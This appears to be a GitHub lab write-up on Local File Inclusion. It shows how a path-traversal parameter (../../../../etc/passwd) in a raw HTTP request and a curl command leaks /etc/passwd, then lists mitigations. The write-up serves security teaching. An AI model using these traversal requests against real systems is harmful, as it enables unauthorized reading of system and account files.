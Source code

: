 # 🛡️ Local File Inclusion – /etc/passwd Disclosure

[![Lab Type](https://img.shields.io/badge/Lab-Web_Exploit-blue)](https://github.com/)  
[![Severity](https://img.shields.io/badge/Severity-High-red)](https://github.com/)  
[![Information Disclosure](https://img.shields.io/badge/Impact-Info_Disclosure-orange)](https://owasp.org/)  
[![LFI](https://img.shields.io/badge/Vulnerability-LFI-yellow)](https://owasp.org/)  
[![Linux](https://img.shields.io/badge/Target-Linux-lightgrey)](https://www.kernel.org/)  

---

## 📑 Table of Contents

1. [Overview](#overview)  
2. [Objective](#objective)  
3. [Vulnerability Description](#vulnerability-description)  
4. [Exploitation Steps](#exploitation-steps)  
5. [Proof of Exploit](#proof-of-exploit)  
6. [Proof of Concept](#proof-of-concept)  
7. [Mitigation](#mitigation)  
8. [References](#references)  

---

## Overview

This lab demonstrates a **Local File Inclusion (LFI)** vulnerability in a simulated web application. By manipulating parameters, an attacker can retrieve sensitive system files such as `/etc/passwd`.  

---

## Objective

- Understand Local File Inclusion (LFI) vulnerabilities  
- Learn how improper file handling can lead to sensitive data exposure  
- Practice safe exploitation in a controlled environment  

---

## Vulnerability Description

Local File Inclusion occurs when a web application dynamically loads files based on **user input** without proper validation.  

In this lab:  

- The server mislabels responses (returning `/etc/passwd` with `Content-Type: image/jpeg`)  
- Attackers can request arbitrary files from the system  
- This results in the disclosure of **sensitive information** such as usernames and service accounts  

---

## Exploitation Steps

1. Intercept a vulnerable request using **Burp Suite** or browser dev tools.  
2. Manipulate the file parameter to include `/etc/passwd`. Example:  

   ```
   GET /vulnerable.php?page=../../../../etc/passwd HTTP/1.1
   Host: target.com
   ```
3. Observe the server’s response. Despite a `200 OK` and `image/jpeg` header, the body leaks system file contents.  

---

## PROOF OF EXPLOIT

```

...
```

<img width="1916" height="1079" alt="File path traversal, simple case" src="https://github.com/user-attachments/assets/751c1972-ccb9-45a8-810a-3b10887d50cf" />

---

## Proof of Concept

Using `curl` to fetch `/etc/passwd` through the vulnerable endpoint:  

```bash
curl "http://target.com/vulnerable.php?page=../../../../etc/passwd"
```

Output:  

```
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
mysql:x:106:107:MySQL Server:/nonexistent:/bin/false
...
```

---

## Mitigation

* **Validate and sanitize user input** before using it in file operations  
* **Restrict file access** using whitelists (only allow known safe files)  
* **Use a chroot jail or containerization** to limit file system exposure  
* **Disable detailed error messages** in production environments  
* **Apply the principle of least privilege** for the web server user  

---

## References

* [OWASP: Local File Inclusion](https://owasp.org/www-community/attacks/Path_Traversal)  
* [CWE-98: Improper Control of Filename for Include/Req]()*
